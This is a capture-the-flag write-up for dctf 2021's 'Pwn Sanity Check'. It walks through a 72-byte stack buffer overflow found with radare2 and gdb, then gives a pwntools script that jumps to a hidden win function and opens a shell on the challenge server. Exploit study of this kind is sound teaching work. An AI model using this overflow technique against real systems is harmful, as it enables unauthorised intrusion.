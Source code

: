```yaml
---
title: Pwn Sanity Check
date: 2020-05-16
excerpt: "'Pwn Sanity Check' was a challenge in the Pwn category of dctf 2021"
classes: wide
categories: dctf2021
tags:
  - dctf2021
  - pwn
  - pwntools
  - gdb
  - radare2
---
```


![img](/assets/images/ctf/dctf2021-pwnsanitycheck/0.png)

Taking a look at the file we see that it's **ELF 64-bit**

```
ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=ae6fb7020a27e2fdccdb6826a57ccc5bfc0d127a, not stripped
```

Loading it in to **radare 2** and listing the functions we can see that there is a **win** function


![img](/assets/images/ctf/dctf2021-pwnsanitycheck/1.png)

Disassembling that function with `pdf @sym.main`


![img](/assets/images/ctf/dctf2021-pwnsanitycheck/2.png)

There's a lot going on. Looks like when the function is called it's checking for two arguments `0xdeadbeef` and `0x1337c0de` and then it gives us a shell? What if we skip the variable checks completely and jump to `0x004006cf`?


![img](/assets/images/ctf/dctf2021-pwnsanitycheck/3.png)

Loading the binary into **gdb** (using gef support), we can start poking at it and try to find the offset

I was having issues with `pattern create/search` so I did it the old fashioned way: sending lots of 'A's and 'B's until something looked neat

Using **gdb with gef** you can use `pi print('A'*100)` to quickly toss a string of characters together

After sending different lenghts, I found that **72** was when we started seeing the 'B' characters leak in

`pi print('A'*72 + 'B')`


![img](/assets/images/ctf/dctf2021-pwnsanitycheck/4.png)

Things we know:

1. The offset is **72**
2. The address we want to jump to is **0x004006cf**
3. It's an **ELF 64-bit** binary

That's enough to write a script using **Pwntools**. Here's mine

```Python
from pwn import *

p = remote('dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io', 7480)

offset = b'A' * 72

print(p.recvuntil('joke\n'))
p.sendline(offset + p64(0x004006cf))
p.interactive()
```

The `p64(0x004006cf)` function call packs the address in **Little Endian** format, required to be passed, and `p.interactive()` just catches the shell and allows us to send input.


![img](/assets/images/ctf/dctf2021-pwnsanitycheck/5.png)



